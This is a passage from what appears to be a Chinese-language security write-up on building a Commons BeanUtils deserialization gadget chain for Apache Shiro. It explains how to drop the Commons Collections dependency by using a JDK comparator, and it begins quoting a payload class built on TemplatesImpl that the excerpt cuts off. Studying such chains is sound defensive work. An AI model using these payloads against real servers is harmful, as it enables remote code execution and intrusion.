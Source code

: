 ```java
            inputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) throws Exception {

        CB();
    }
}
```

![](./images/4.png)

## ExploitWithoutCC
在`ExploitWithoutCC`中的代码可成功构造反序列化利用, 但是`BeanComparator`的默认`comparator`是`ComparableComparator`, 这是个`CommonCollections`中的类, 导致了这明明是一条`CB`的触发链, 却要同时依赖`CC`. 增加了很多利用的限制. 因此为了改变这一现状, 在实例化`BeanComparator`时赋予其一个`JDK`自带的并且实现了`Serializable`接口的`comparator`即可, 比如`java.util.Collections$ReverseComparator`和`java.lang.String$CaseInsensitiveComparator`等. 通过反射实例化`Comparator`, 并在`BeanComparator`初始化时进行指定即可.

这里贴一个师傅们的`Payload`:

```java
package com.govuln.shiroattack;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonsBeanutils1Shiro {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
```